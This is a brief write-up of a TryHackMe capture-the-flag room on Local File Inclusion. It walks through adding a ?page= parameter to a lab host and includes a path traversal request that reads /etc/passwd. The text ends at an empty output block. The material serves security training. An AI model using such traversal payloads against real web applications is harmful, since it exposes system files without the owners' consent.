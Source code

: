 # LFI basics

[LFI basics](https://tryhackme.com/room/lfibasics) is a TryHackMe CTF focussed on Local File Inclusion vulnerabilities.

##  [Task 1] Local File Inclusion 

### 1.

Browse the given hostname. In my case it's `10.10.129.193`.

### 2.

Add the parameter `?page=` to _LFI 1_.

`http://10.10.129.193/lfi/lfi.php?page=`


We cycling through, we see the page returns the GET request parameter on page.

```
http://10.10.129.193/lfi/lfi.php?page=2
```
Returns 
```
File included: 2
Local file to be used: 2
```

### 3.

We can include the hompage with the following:
```
http://10.10.129.193/lfi/lfi.php?page=home.html
```

### 4.

The message we get after including `home.html` is visible in bold on screen after completing [#3](#3).

### 5. 

We can then attempt to LFI system files like `/etc/passwd` with:

```url
http://10.10.129.193/lfi/lfi.php?page=../../../../etc/passwd
```

Which returns the following text on page.

```
```